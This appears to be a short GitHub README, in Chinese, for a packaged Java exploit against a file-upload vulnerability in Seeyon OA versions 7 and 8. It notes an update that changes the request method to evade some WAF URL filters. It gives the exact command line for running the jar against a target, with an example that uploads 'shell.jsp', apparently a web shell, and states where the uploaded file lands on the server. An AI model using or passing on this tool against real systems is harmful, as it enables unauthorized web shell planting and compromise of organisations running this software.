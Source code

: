 # seeyon_ajax_exp

致远OA文件上传漏洞利用脚本

版本更新,更新内容：

小小更换提交方式，绕过部分url过滤规则waf

已知影响版本：致远oa v7,v8

脚本已经打包好，没有任何防护，可直接查看源码，不存在后门。

使用方法：java -jar seeyon_exp.jar 目标地址 上传文件名字 上传文件绝对路径

例:      java -jar seeyon_exp.jar 10.10.10.10:8080 shell.jsp C:\Users\nex1less\Desktop\222.txt

默认路径为:ip + /seeyon/ + 文件名


